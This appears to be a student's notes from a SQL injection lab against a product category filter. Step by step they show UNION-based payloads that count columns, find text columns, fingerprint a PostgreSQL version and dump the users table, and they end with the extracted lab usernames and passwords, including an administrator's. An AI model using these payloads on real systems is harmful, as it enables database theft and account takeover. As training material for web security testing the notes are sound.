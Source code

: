 SQL Injection - PRoduct Category filter

End Goal: retrive all usernames and password and login as administrator.

Analysis:
---------
1) find the number of colounm that the vunerable colunm is using:
' order by 1-- -> not displayed on the page
' order by 2--
' order by 3--  -> intenal server error

3 - 2 = 1

(2) Find which coloumns contain text
' UNION SELECT 'a',NULL--
' UNION SELECT NULL,'a'--  ->**

(3) Output data from other tables

' UNION SELECT NULL, username from users--
' UNION SELECT NULL, password from users--

(4) find the db version

' UNION SELECT NULL,@@version--

' UNION SELECT NULL,version()--  -> PostgreSQL

(5) creating the payload

-> ' UNION SELECT NULL, username || '*' ||password from users--

--------------------------

wiener*x8uhfx403b1g3tds35bw
administrator*jms2zhnalarorim5kc6v
carlos*qwxvhwugwmf35hy8b6zq


